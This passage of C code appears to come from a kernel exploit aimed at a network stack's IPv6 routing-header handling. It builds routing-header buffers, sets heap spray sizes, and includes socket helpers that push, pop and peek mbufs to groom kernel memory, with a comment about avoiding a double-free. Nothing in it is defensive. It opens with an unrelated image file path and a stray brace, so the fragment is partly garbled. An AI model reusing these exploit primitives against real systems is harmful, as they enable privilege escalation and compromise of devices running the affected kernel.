 }

void build_rthdr(char* buf, int sz)
{
    buf[0] = 43;
    buf[1] = sz / 8 - 1;
    buf[2] = 0;
    buf[3] = 0;
    for(size_t i = 4; i < sz; i++)
        buf[i] = 0;
}

#define RTHDR_1_SZ 0x68 // MHLEN-56
#define RTHDR_2_SZ 32 // >8 to prevent double-free on second mbuf
#define FIRST_FRAGMENT_SZ 0x38
#define SPRAY_SIZE 400
#define SMALL_SPRAY_SIZE 400
#define HUGE_SPRAY_SIZE 0x2800
#define RECLAIM_THRESHOLD 10

void push_mbuf(int* socks, int i)
{
    if(sendto(socks[i], &i, sizeof(i), 0, 0, 0) < 0)
        printf("push_mbuf failed\n");
}

int pop_mbuf(int* socks, int i)
{
    int ans = i;
    recvfrom(socks[i], &ans, sizeof(ans), 0, 0, 0);
    return ans;
}

int peek_mbuf(int* socks, int i)
{
    int ans = i;
    recvfrom(socks[i], &ans, sizeof(ans), MSG_PEEK, 0, 0);
    return ans;
}

#if 0

uint16_t ip_checksum(void* buf, size_t sz, uint32_t csum)
{
    uint16_t* x = (unsigned short*)buf;
    for(size_t i = 0; i < sz / 2; i++)
        csum += x[i];
    while(csum >= 0x10000)
    {
        uint32_t q = csum / 0x10000;
        csum %= 0x10000;
        csum += q;
    }
    return (uint16_t)(0xffff - csum);
}
